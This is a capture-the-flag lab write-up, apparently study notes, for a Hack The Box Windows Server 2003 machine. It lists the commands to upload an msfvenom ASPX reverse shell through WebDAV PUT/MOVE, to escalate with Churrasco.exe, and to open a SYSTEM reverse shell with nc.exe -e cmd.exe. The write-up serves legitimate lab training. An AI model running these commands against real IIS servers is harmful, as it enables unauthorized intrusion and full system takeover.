 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)
[Done](Done)
- **Exploits Used**:
  - [HTTP](HTTP.md) WebDAV PUT/MOVE
  - File extension bypass via `.txt → .aspx`
  - Local PrivEsc using `Churrasco.exe`

---

## 🔍 Reconnaissance

### 🔎 Fast Port Scan
```bash
nmap -p- -T5 10.10.10.15
```
Only **port 80 ([HTTP](HTTP.md))** is open.

### 📌 Service Enumeration
```bash
nmap -p 80 -A 10.10.10.15 -v
```
- **Service**: Microsoft IIS httpd 6.0
- **Extensions**: WebDAV (with support for `PUT`, `MOVE`, `PROPFIND`, etc.)

---

## 🧪 WebDAV Enumeration

### 🛠️ Check WebDAV Methods
```bash
davtest -url http://10.10.10.15
```

Result:
- Can **upload** files (`PUT`)
- Can **rename/move** files (`MOVE`)
- But only `.html` and `.txt` can be **executed**
- **Workaround**: upload `.aspx` as `.txt`, then `MOVE` it back to `.aspx`

[🔗 WebDAV Exploit Reference](https://vk9-sec.com/exploiting-webdav/)

---

## 🚀 Exploitation – Upload Reverse Shell

### 1️⃣ Create ASPX Reverse Shell
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.13 LPORT=4444 -f aspx -o shell.aspx
mv shell.aspx shell.txt
```

### 2️⃣ Upload Using [HTTP](HTTP.md) `PUT`
```bash
curl -X PUT http://10.10.10.15/shell.txt --data-binary @shell.txt
```

### 3️⃣ Rename Using [HTTP](HTTP.md) `MOVE`
```bash
curl -X MOVE --header 'Destination:http://10.10.10.15/shell.aspx' http://10.10.10.15/shell.txt
```

### 4️⃣ Start Listener
```bash
nc -nvlp 4444
```

### 5️⃣ Trigger Shell
Visit in browser:
```
http://10.10.10.15/shell.aspx
```

---

## 🐚 Shell Gained
```cmd
whoami
nt authority\network service
```

---

## 🚪 Privilege Escalation – SYSTEM

### 1️⃣ System Info
```cmd
systeminfo
```
- OS: **Windows Server 2003**
- Vulnerable to token impersonation (Churrasco)

### 2️⃣ Download Churrasco
```bash
wget https://github.com/Re4son/Churrasco/raw/master/churrasco.exe
mv churrasco.exe churrasco.txt
```

### 3️⃣ Upload via [HTTP](HTTP.md)
```bash
curl -X PUT http://10.10.10.15/churrasco.txt --data-binary @churrasco.txt
```

### 4️⃣ Rename in Shell
```cmd
ren churrasco.txt churrasco.exe
```

### 5️⃣ Upload `nc.exe`
```bash
cp /usr/share/windows-resources/binaries/nc.exe ~/Desktop
mv nc.exe nc.txt
curl -X PUT http://10.10.10.15/nc.txt --data-binary @nc.txt
ren nc.txt nc.exe
```

---

## 💥 SYSTEM Shell

### 1️⃣ Listener
```bash
nc -nvlp 5555
```

### 2️⃣ Execute Reverse Shell
```cmd
churrasco.exe -d "C:\Inetpub\wwwroot\nc.exe -e cmd.exe 10.10.14.13 5555"
```

---

## 🎯 Proof

### 🧍‍♂️ User Flag
```cmd
type C:\Documents and Settings\lakis\Desktop\user.txt
```

### 👑 Root Flag
```cmd
type C:\Documents and Settings\Administrator\Desktop\root.txt
```

---

## ✅ Summary

| Phase              | Method                                         |
|-------------------|------------------------------------------------|
| Recon              | Found IIS 6.0 with [HTTP](HTTP.md) WebDAV        |
| Initial Access     | Used PUT/MOVE to bypass extension restriction |
| Privilege Escalation | Token impersonation using `Churrasco.exe` |
| Final Access       | SYSTEM shell via netcat                       |

---

Let me know if you’d like this converted into a downloadable Markdown doc or exported for reporting 💾📄